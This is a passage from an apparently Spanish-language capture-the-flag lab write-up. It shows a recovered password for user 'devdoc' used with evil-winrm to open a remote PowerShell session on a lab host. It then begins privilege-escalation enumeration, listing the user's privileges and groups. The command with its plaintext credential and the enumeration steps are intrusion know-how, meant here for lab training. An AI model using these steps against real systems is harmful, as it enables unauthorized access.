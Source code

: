 Y encontramos que la credencial es válida para el usuario `devdoc`.

Ahora con `evil-winrm` podemos conseguir una consola como `devdoc`
```console
$ evil-winrm -i 10.129.196.198 -u 'devdoc' -p '1g0tTh3R3m3dy!!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\devdoc\Documents> whoami
appsanity\devdoc
```

# Privilege Escalation

`devdoc` no tiene ningún privilegio interesante.
```console
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== =======
SeShutdownPrivilege           Shut down the system                 Enabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Enabled
SeTimeZonePrivilege           Change the time zone                 Enabled
```

Tampoco pertenece a ningún grupo especial.
```console
GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users        Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192
```
